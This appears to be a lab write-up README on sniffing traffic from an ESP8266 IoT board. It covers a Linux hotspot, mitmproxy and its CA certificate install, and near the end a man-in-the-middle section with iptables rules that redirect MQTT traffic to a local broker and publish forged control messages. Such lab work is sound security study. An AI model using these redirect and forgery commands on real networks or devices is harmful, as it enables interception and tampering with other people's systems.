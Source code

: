 # Sniff the network traffic
Linux Platform Version: Unbuntu 20.04
Web Browser: Google Chrome

## WiFi Hotspot Set Up
Since my computer has no port for ethernet cable, I found another solution to deal with this problem which was using *wihotspot*. The *wihotspot* allows Linux to connect the WiFi and share it using the hotspot at the same time. The installation procedure has been shown below.

1. To clone the latest package,
   ```powershell
   git clone https://github.com/lakinduakash/linux-wifi-hotspot

   cd linux-wifi-hotspot
   ```
2. To install the dependencies,
    ```powershell
   sudo apt install -y libgtk-3-dev build-essential gcc g++ pkg-config make hostapd
    ```
3. To build and install it,
   ```powershell
   make

   sudo make install
   ```
4. To run it,
   ```powershell
   wihotspot
   ```

After using the commands above, the UI will appear like the figure below. 

![](./figures/wihotspot_ui.png)

For convenience, the SSID and password are set to "syssec" and "systemsec" respectively. The wifi interface and internet interface are both set to `wlp2s0` and it will generate a virtual `ap0` network.

In so far, the hotspot has been built up and can be searched by other devices. 

## ESP Configuration
After opening the wifi network setting and through scanning, PC can find a wifi network named "ESPxxxxxxxx", eg. *ESP13061032*.

![](./figures/esp_wifi.png)

When connecting to it, it will automatically show the configuration page.

![](./figures/esp_config.png)

If WiFi hotspot is running and set to visible for the public, then using "configure WiFi", ESP can find the network; otherwise, using "configure WiFi (No Scan)" and filling SSID and Password, ESP can be manually configured and it will automatically connect to your network setting after the network appears.

The reset button on the board should be pressed after configuration is completed, the LED on the board will keeping "breathing" which indicates the successful connection.

The following command can show whether the board is connected to your configured hotspot.
```powershell
ip neigh show
```
The mac address of the board can be found and compared by using the following command.
```powershell
esptool.py chip_id
```

The result will be similar to this.

![](./figures/esp_connected.png)

## MITMProxy Installation
The Linux binaries package can be downloaded from [mitmproxy.org](https://mitmproxy.org/).
```powershell
tar -zxvf mitmproxy-6.0.2-linux.tar.gz
```

Set them to the global environment for convenience.
```powershell
sudo mv mitmproxy mitmdump mitmweb /usr/bin
```

`mitmproxy`, `mitmdump`, and `mitmweb` can be used, but since the system and browser have not installed MITM certificate, they are not allowed to capture anything.

Open `Settings` -> `Network` -> `Network Proxy` (setting button) -> `Manual`.

Fill the blanks with `127.0.0.1: 8080`.
![](figures/network_proxy.png)

### Add Certificate to Ubuntu
#### method 1
`mitmdump` will generate the certificates in /root/.mitmproxy when it is used for the first time.
```powershell
mitmdump
```
In order to install the certificate on Ubuntu, it needs to convert the .pem file to the .crt file. After that, it can be installed on Ubuntu.
```powershell
sudo -i

ls -a

cd .mitmproxy

openssl x509 -in mitmproxy-ca-cert.pem -inform PEM -out mitmproxy-ca-cert.crt

sudo mkdir /usr/share/ca-certificates/extra

sudo cp  mitmproxy-ca-cert.crt /usr/share/ca-certificates/extra/mitmproxy-ca-cert.crt

sudo dpkg-reconfigure ca-certificates

# select the correct one and press Enter to continue
```
![](figures/install_certificate.png)

In so far, the certificate has been installed on your Unbuntu system.

#### method 2 (may not work for Google Chrome while is workable for Firefox)
The SwitchOmega extension should be installed first which can be found in [Chrome Web Store](https://chrome.google.com/webstore/detail/proxy-switchyomega/padekgcemlokbadohgkifijomclgjgif).

After setting the proxy to `[System Proxy]` (make sure that mitmdump is still running), visit mitm.it and download the Linux version mitmproxy-ca-cert.pem to anywhere you like and enter to that folder.
```powershell
mv mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy.crt

sudo update-ca-certificates
```

### Add Certificate to Chrome
If your browser is Google Chrome, you may not directly use method 2 above, since Chrome needs a certificate before visiting that webpage. 

Go `Settings` -> `Privacy and security` -> `Security` -> `Manage certificates` ->  `Authories` -> `Import` and select mitmproxy-ca-cert.pem to install (root/.mitmproxy). *org-mitmproxy* will apear in the list after being correctly imported.

Open any web pages to test mitm now is workable on your PC. In mitmdump, where the requests are collected, you can see I am visiting YouTube.
![](figures/youtube_example.png)


## Man-in-the-middle Attack
```powershell
#run local mosquitto server
mosquitto -p 8888

#redirect the traffic
sudo iptables -t nat -A PREROUTING -i wlp2s0 -p tcp --dport 1883 -j REDIRECT --to-port 8888
sudo iptables -t nat -A PREROUTING -i ap0 -p tcp --dport 1883 -j REDIRECT --to-port 8888

# publish forgary message
mosquitto_pub -h localhost -p 8888 -t <topic> -m <command>

#for example
mosquitto_pub -h localhost -p 8888 -t led/wemos17/action -m 0
```


## Hidden Firmwork
```powershell
dd if=firmware.bin of=firmware-no-bootloader.bin bs=4k skip=1

esptool.py image_info firmware-no-bootloader.bin
```

```
Segment 1: len 0x62184 load 0x40201010 file_offs 0x00000008 [IROM]
Segment 2: len 0x000fc load 0x40100000 file_offs 0x00062194 [IRAM]
Segment 3: len 0x06ab8 load 0x401000fc file_offs 0x00062298 [IRAM]
Segment 4: len 0x00518 load 0x3ffe8000 file_offs 0x00068d58 [DRAM]
Segment 5: len 0x00818 load 0x3ffe8520 file_offs 0x00069278 [DRAM]
```



a3=>s_/action_3ffe86c3,PTR_s_/action_40201324